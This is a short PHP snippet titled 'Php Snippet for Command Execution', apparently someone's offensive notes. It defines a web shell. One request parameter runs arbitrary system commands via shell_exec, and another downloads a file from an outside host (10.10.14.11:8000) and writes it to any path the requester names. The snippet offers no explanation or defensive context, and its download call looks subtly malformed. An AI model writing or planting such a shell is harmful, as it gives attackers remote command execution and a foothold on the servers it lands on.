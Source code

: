 Php Snippet for Command Execution

# Php Snippet for Command Execution

```
$php_file_update= <<<'EOD'
<?php 
    if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.11:8000/", $_REQUEST['fupload'] ));
    };
    if (isset($_REQUEST['fexec'])){
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
    };
?>
EOD;
```